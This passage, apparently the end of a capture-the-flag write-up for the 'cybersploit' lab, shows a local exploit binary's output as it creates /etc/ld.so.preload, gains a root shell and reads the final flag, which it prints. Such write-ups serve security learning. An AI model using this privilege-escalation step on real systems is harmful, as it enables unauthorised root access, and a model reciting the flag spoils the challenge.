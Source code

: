 ```bash
itsskv@cybersploit-CTF:/tmp$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# 
```

With `root` access achieved, we navigated to the `/root` directory to locate and read the final flag:

```bash
# cd /root
# ls
finalflag.txt
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
# 
```

We successfully located the final flag (`flag3`) in the `/root` directory and extracted it, obtaining the message:

```
flag3: cybersploit{Z3X21CW42C4 many many congratulations !}
```

This concludes the process of privilege escalation and flag retrieval. Feel free to share your experience on Twitter with `@cybersploit1`. Congratulations on completing the challenge!
